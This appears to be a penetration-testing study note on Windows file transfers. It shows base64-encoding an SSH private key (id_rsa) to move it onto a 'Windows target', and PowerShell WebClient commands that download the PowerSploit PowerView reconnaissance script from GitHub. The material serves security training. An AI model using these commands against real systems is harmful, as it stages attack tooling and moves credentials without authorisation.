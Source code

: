 # <mark class="hltr-pink">Windows file transfers methods</mark>

## <mark class="hltr-cyan">PowerShell Base64 Encode & Decode</mark>

Depending on the file size we want to transfer, we can use different methods that do not require network communication.

If we have access to a terminal, we can encode a file to a base64 string, copy its contents from the terminal and perform the reverse operation, decoding the file in the original content. Let's see how we can do this with PowerShell.

- Encoding the file on the linux vm
```
cat id_rsa |base64 -w 0;echo
```

- Decoding the file on the windows target
```powershell-session
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<THE B64 STRING>"))
```

Finally, we can confirm if the file was transferred successfully by comparing MD5 checksums.

- Linux
```
md5sum id_rsa
```

- Windows
```powershell-session
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

<mark class="hltr-red">Note:</mark> While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## <mark class="hltr-cyan">PowerShell Web Downloads</mark>
### <mark class="hltr-orange">PowerShell DownloadFile Method</mark>
In any version of PowerShell, the System.Net.WebClientclass can be used to download a file over `HTTP`, `HTTPS` or `FTP`.

![[Pasted image 20240804172048.png]]

```powershell-session
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

- Async
```powershell-session
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```
